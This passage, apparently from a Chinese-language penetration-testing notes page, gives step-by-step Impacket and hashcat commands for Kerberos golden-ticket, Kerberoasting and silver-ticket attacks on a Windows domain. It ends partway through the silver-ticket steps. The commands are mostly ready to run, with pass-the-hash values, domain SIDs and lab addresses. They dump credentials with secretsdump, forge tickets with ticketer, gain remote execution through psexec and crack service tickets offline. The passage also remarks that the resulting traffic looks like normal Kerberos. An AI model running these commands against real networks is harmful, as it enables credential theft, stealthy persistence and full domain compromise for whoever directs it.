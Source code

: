 二、获取域的SID

获取SID

impacket命令：`python lookupsid.py windows.local/windows@172.16.178.9 -hashes 0:9e7620e4e1a34c1fdcf3228896dc9d22`

三、形成金票

impacket命令：`python ticketer.py -nthash ed7879d3854f9d4958533d84d7945d9f -domain-sid S-1-5-21-4142917197-1339067896-309211218 -domain windows.local test`

其中，nthash需要是前面获取的krbtgt hash的nt hash，最后的test需要是域内的用户

四、使用金票

`export KRB5CCNAME=/Users/impacket-master/examples/test.ccache;python psexec.py windows.local/test@TEST.windows.local -k -no-pass -dc-ip 172.16.178.9 -debug`

注意：

* export后是导入的金票

* 域的用户名必须是形成金票的名字

* 目标一定要是具体的机器名，如果在域外，就配置hosts，因为KDC下发tgs前会用SPN查询你的具体机器名，如果是ip就会查不到。
* 如何是域外，需要加-dc-ip或者host中配置域控的ip，域内就不需要。

流量：正常的kerberos访问流量，除了没有tgt获取阶段。

#### kerberosting

此漏洞主要是通过获取服务用户的TGS，获取完成后爆破TGS使用服务hash加密的ticket。

通过SPN查询域内服务用户.

impacket命令：`python GetUserSPNs.py windows.local/windows:xxxxxxx -request -dc-ip 172.16.178.9`

爆破服务用户获取到的tgs-rep密码.

hashcat命令：`hashcat -m 18200 --force -a 0 上面的hash password.txt`

流量：4N

#### 白银票据

当拥有服务hash后，通过此服务hash生成TGS，此过程不用访问DC，攻击机器只与目标服务器通信。如果目标服务有PAC认证，则此票据将失效。

一、获取具体服务用户hash

`python secretsdump.py windows.local/windows@172.16.178.9 -hashes 0:9e7620e4e1a34c1fdcf3228896dc9d22 -dc-ip 172.16.178.9 -just-dc-user test`

二、获取SID

`python lookupsid.py windows.local/windows@172.16.178.9 -hashes 0:9e7620e4e1a34c1fdcf3228896dc9d22`

三、形成票据

`python ticketer.py -nthash 4d6bb8456fde083dcdc9a23c6c7c1425 -domain-sid S-1-5-21-4142917197-1339067896-309211218 -domain windows.local -spn http/web.windows.local(service name/host) web(username)`

四、使用银票
